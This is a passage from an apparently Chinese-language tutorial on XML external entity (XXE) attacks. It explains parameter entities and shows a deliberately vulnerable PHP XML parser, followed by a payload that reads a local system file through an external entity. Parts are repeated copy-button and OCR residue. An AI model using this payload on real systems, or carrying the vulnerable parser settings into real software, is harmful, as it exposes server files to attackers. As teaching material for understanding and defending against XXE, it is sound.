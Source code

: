 复制

4、参数实体

- 引用实体的方式： `% 实体名`(这里面空格不能少)
- 在 DTD 中定义，并且只能在 DTD 中使用 `% 实体名`引用
- 只有在 DTD 文件中，参数实体的声明才能引用其他实体
- 和通用实体一样，参数实体也可以外部引用
- 在 Blind XXE 中起到了至关重要的作用

实例

```javascript
<!ENTITY % an-element "<!ELEMENT mytag (subtag)>"> 
<!ENTITY % remote-dtd SYSTEM "http://somewhere.example.org/remote.dtd"> 
%an-element; %remote-dtd;

```

复制

### 3、XXE漏洞利用

##### （1）有回显读取敏感信息

有问题的xml.php

```javascript
<?php
    libxml_disable_entity_loader (false);
    $xmlfile = file_get_contents('php://input');
    $dom = new DOMDocument();
    $dom->loadXML($xmlfile, LIBXML_NOENT | LIBXML_DTDLOAD); 
    $creds = simplexml_import_dom($dom);
    echo $creds;
?>

```

复制

1、直接通过DTD外部实体声明

payload:

```javascript
<?xml version="1.0" encoding="utf-8"?> 
<!DOCTYPE creds [  
<!ENTITY goodies SYSTEM "file:///c:/windows/system.ini"> ]> 
<creds>&goodies;</creds>
```

复制

```javascript
声明引入外部实体声明
```

复制
